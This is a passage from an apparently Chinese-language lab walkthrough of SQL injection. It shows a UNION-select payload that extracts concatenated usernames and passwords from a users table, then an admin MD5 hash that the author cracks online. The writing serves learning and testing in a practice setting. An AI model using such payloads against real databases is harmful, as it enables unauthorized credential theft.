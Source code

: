   - 看到了user和password字段，接下来查找字段
    1' union select 1,(select group_concat(User,Password) from users)#

  <img src="img\sql-12.jpg" alt="sql-12" style="zoom:50%;" />

- 看到用户名是admin，密码是5f4dcc3b5aa765d61d8327deb882cf99
  看起来是MD5加密过的数据，在线解密一下（上面改回来了）

<img src="img\MD5解密.jpg" alt="MD5解密" style="zoom:50%;" />
